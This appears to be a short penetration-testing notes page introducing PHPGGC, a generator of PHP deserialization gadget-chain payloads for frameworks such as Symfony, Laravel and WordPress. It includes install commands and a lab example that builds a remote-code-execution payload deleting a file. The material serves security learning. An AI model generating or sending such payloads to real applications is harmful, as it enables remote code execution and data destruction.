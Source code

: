 ```yaml
---
title: Phpggc - A tool for PHP deserialization
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - webpentesting
  - tools
  - deserialization
  - php
---
```

# Phpggc - A tool for PHP deserialization

PHPGGC is a library of unserialize() payloads along with a tool to generate them, from command line or programmatically.

It can be seen as the equivalent of [frohoff's ysoserial](ysoserial.md), but for PHP.

Currently, the tool supports gadget chains such as: CodeIgniter4, Doctrine, Drupal7, Guzzle, Laravel, Magento, Monolog, Phalcon, Podio, Slim, SwiftMailer, Symfony, Wordpress, Yii and ZendFramework.


## Installation

Repository: [https://github.com/ambionics/phpggc](https://github.com/ambionics/phpggc)

Clone it:

```
git clone https://github.com/ambionics/phpggc.git
```

List available gadget chains:

```
cd phpggc

./phpggc -l
```

Example from Burpsuite lab:

```
/phpggc Symfony/RCE4 exec 'rm /home/carlos/morale.txt' | base64 -w 0 > test.txt
```
